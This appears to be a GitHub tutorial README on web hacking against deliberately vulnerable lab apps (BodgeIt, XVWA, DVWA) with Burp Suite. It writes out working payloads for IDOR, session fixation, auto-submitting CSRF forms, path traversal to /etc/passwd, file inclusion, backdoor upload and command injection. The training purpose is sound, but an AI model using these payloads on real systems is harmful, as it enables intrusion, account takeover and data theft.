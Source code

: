 # Web hacking for Lo Teks

You will only need :
1. [Burp Suite Community Edition_](https://portswigger.net/burp/communitydownload) - choose "*Download plain JAR file*"
2. Optional for your comfort - a plugin to switch proxy setting for your browser, like **FoxyProxy** for [Chrome](https://chrome.google.com/webstore/detail/foxyproxy-standard/gcknhkkoolaabfmlnjonogaaifnjlfnp) or [Firefox](https://addons.mozilla.org/sk/firefox/addon/foxyproxy-standard/)

Now you need to read [this](http://www.phrack.org/issues/7/3.html) and start your `BurpSuite`

`java -jar burpsuite_community_v1.7.36.jar`

List of apps to play with:
* [The BodgeIt Store](http://bodgeit.lab/bodgeit/)
* [Xtreme Vulnerable Web Application (XVWA)](http://xvwa.lab/xvwa/)
* [Damn Vulnerable Web Application (DVWA)](http://dvwa.lab/)


## Broken Access Control

With a little bit of *Insecure Direct Object References (IDOR)*

### BodgeIt Admin interface

If there is no **admin** section in the menu, it doesn't mean there is none.

but you can [guess](http://bodgeit.lab/bodgeit/admin.jsp)

`http://bodgeit.lab/bodgeit/admin.jsp`


### BodgeIt Debug Messages

Wish there was some magic switch to show some sensitive stuff.

No problem. Try something like [this](http://bodgeit.lab/bodgeit/basket.jsp?debug=true)

`http://bodgeit.lab/bodgeit/basket.jsp?debug=true`


### Client-side data validation

`Proxy > Options > Response Modification > Remove JavaScript form validation`

### I can see what you buy

1. Visit [BodgeIt basket](http://bodgeit.lab/bodgeit/basket.jsp)
2. Change your cookie `Cookie: b_id=3;`
3. Refresh the page

### Insecure Direct Object References (IDOR)

WAT? Lets have look [here](http://xvwa.lab/xvwa/vulnerabilities/idor/).

We only have a `Café au lait`

`http://xvwa.lab/xvwa/vulnerabilities/idor/?item=5`

But I want to order a `Caffé latte`

`http://xvwa.lab/xvwa/vulnerabilities/idor/?item=7`


### What if i change this ...

You can test it [here](http://xvwa.lab/xvwa/vulnerabilities/missfunc/).

If you can *view*

`http://xvwa.lab/xvwa/vulnerabilities/missfunc/?item=10&action=view`

maybe you can do more

`http://xvwa.lab/xvwa/vulnerabilities/missfunc/?item=10&action=delete`


## Broken Authentication and Session Management


### SESSIONID

What are all these random letters numbers? Well, they really are (should be) random ;]
But remember
> Keep It Hidden Keep It Safe

### Session fixation 

Easy as sending a [link](http://bodgeit.lab/bodgeit/login.jsp?JSESSIONID=0CE01A16F33AC52D89705BC9A088E0AF) to someone.

`http://bodgeit.lab/bodgeit/login.jsp?JSESSIONID=0CE01A16F33AC52D89705BC9A088E0AF`




## Cross-Site Request Forgery (CSRF)

[This](http://xvwa.lab/xvwa/vulnerabilities/csrf/) is how a bad idea looks like.

`http://xvwa.lab/xvwa/vulnerabilities/csrf/?passwd=heslo&confirm=heslo&submit=submit`


BodgeIt : leave feedback to change passwords

`<img src='http://bodgeit.lab/bodgeit/password.jsp?password1=heslo&password2=heslo'>`

```
<form action="http://bodgeit.lab/bodgeit/password.jsp" method="POST">
  <input type="hidden" name="password1" value="heslo" />
  <input type="hidden" name="password2" value="heslo" />
  <input type="submit" value="Submit request" />
</form>
<script>document.forms[0].submit();</script>

```

## Insecure Direct Object References (IDOR) - again...

Yes, it can be bad, check [this](http://xvwa.lab/xvwa/vulnerabilities/fi/)

You show me `readme.txt`

`http://xvwa.lab/xvwa/vulnerabilities/fi/?file=readme.txt`

but I want to see `/etc/passwd`

`http://xvwa.lab/xvwa/vulnerabilities/fi/?file=/etc/passwd`


Same as [here](http://dvwa.lab/vulnerabilities/fi/?page=include.php)

Oh no, a file include

`http://dvwa.lab/vulnerabilities/fi/?page=file1.php`

with a bonus

`http://dvwa.lab/vulnerabilities/fi/?page=file4.php`

but we want more!

`http://dvwa.lab/vulnerabilities/fi/?page=../../phpinfo.php`


Or you can upload your own backdoor using the [image upload](http://dvwa.lab/vulnerabilities/upload) to

`../../hackable/uploads/phpinfo.txt`

and then access it as

`http://dvwa.lab/hackable/uploads/phpinfo.txt`


So let's turn LFI into RFI

`http://xvwa.lab/xvwa/vulnerabilities/fi/?file=http://DVWA/hackable/uploads/phpinfo.txt`

Use the `DVWA` hostname instead of `dvwa.lab` because of the docker setup.


## Injection

Let's do some real **hacking**, I want a **shell**!

## Command Injection

Ok, [Let's go!](`http://dvwa.lab/dvwa/vulnerabilities/exec/`)

`http://dvwa.lab/dvwa/vulnerabilities/exec/`

or

`http://xvwa.lab/xvwa/vulnerabilities/cmdi/`

```
127.0.0.1;id
127.0.0.1&id
x||id
```

```
POST /dvwa/vulnerabilities/exec/ HTTP/1.1
Host: dvwa.lab
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dvwa.lab/dvwa/vulnerabilities/exec/
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: close
Cookie: security=high; PHPSESSID=1mdh1pt8dt42taesnorvlh9og2
Upgrade-Insecure-Requests: 1

ip=127.0.0.1%0d%0Aid&Submit=Submit
```